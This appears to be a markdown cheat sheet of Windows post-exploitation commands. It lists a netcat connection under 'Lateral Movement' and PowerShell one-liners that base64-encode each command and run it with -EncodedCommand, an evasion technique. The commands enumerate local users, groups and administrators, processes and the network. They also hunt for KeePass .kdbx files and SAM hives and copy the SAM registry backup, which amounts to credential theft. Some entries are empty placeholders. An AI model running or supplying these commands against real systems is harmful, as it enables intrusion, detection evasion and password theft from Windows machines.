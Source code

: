 ## Lateral Movement:

- `nc 192.168.50.220 4444`

## Local Account Enumeration:

- `$command = "whoami"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "whoami /groups"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-LocalUser"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-LocalGroup"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-LocalGroupMember Administrators"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = ""; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = ""; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `Get-LocalUser -Name "username" | Select-Object *`

## Get Installed Applications:

### 32 Bit:

- `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`

### 64 Bit:

- `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`

## Local System Enumeration

- `$command = "Get-Process"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-ChildItem -Path C:\ -Include SAM -File -Recurse -ErrorAction SilentlyContinue"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-ChildItem -Path C:\ -Include _.txt,_.ini -File -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern 'YourSearchString'"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Copy-Item -Path "$env:SystemRoot\System32\Config\RegBack\SAM" -Destination 'C:\Path\To\NewLocation\SAM'"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "systeminfo"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "ipconfig /all"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "route print"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "netstat -ano"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = ""; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = ""; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`
